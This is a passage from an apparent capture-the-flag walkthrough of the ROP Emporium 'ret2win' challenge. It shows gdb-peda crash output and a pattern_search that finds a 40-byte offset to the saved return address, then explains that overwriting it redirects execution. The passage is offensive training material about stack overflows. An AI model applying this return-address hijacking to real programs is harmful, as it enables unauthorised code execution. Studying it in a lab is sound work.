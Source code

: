```text
   0x400809 <pwnme+84>:	call   0x400620 <fgets@plt>
   0x40080e <pwnme+89>:	nop
   0x40080f <pwnme+90>:	leave  
=> 0x400810 <pwnme+91>:	ret    
   0x400811 <ret2win>:	push   rbp
   0x400812 <ret2win+1>:	mov    rbp,rsp
   0x400815 <ret2win+4>:	mov    edi,0x4009e0
   0x40081a <ret2win+9>:	mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd58 ("AA0AAFAAb")
0008| 0x7fffffffdd60 --> 0x400062 --> 0x1f8000000000000 
0016| 0x7fffffffdd68 --> 0x7ffff7df7223 (<__libc_start_main+243>:	mov    edi,eax)
0024| 0x7fffffffdd70 --> 0x0 
0032| 0x7fffffffdd78 --> 0x7fffffffde48 --> 0x7fffffffe1b4 ("/home/w3ndige/hacking/rop_emporium/ret2win/ret2win")
0040| 0x7fffffffdd80 --> 0x100000000 
0048| 0x7fffffffdd88 --> 0x400746 (<main>:	push   rbp)
0056| 0x7fffffffdd90 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400810 in pwnme ()
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 32
Registers point to pattern buffer:
[RAX] --> offset 0 - size ~49
[RDX] --> offset 0 - size ~49
[RDI] --> offset 1 - size ~48
[RSP] --> offset 40 - size ~9
Pattern buffer found at:
0x00602260 : offset    0 - size   50 ([heap])
0x00007fffffffdd30 : offset    0 - size   49 ($sp + -0x28 [-10 dwords])
References to pattern buffer found at:
0x00007ffff7f91878 : 0x00602260 (/usr/lib/libc-2.28.so)
0x00007ffff7f91880 : 0x00602260 (/usr/lib/libc-2.28.so)
0x00007ffff7f91888 : 0x00602260 (/usr/lib/libc-2.28.so)
0x00007ffff7f91890 : 0x00602260 (/usr/lib/libc-2.28.so)
0x00007ffff7f91898 : 0x00602260 (/usr/lib/libc-2.28.so)
0x00007fffffffb120 : 0x00007fffffffdd30 ($sp + -0x2c38 [-2830 dwords])
0x00007fffffffd980 : 0x00007fffffffdd30 ($sp + -0x3d8 [-246 dwords])
0x00007fffffffd9a0 : 0x00007fffffffdd30 ($sp + -0x3b8 [-238 dwords])
0x00007fffffffdca0 : 0x00007fffffffdd30 ($sp + -0xb8 [-46 dwords])
0x00007fffffffdcb8 : 0x00007fffffffdd30 ($sp + -0xa0 [-40 dwords])
0x00007fffffffdce8 : 0x00007fffffffdd30 ($sp + -0x70 [-28 dwords])
```

Now, we can see that binary once again crashed, but by doing `pattern_search` we get the exact offset that will cause us to overwrite the `rsp` - 40 which means 40 bytes.

As the `rsp` before `ret` contains the value pushed as the return address at the start of the funciton, by overwriting it with any address we want, we can return to anywhere in the code. 
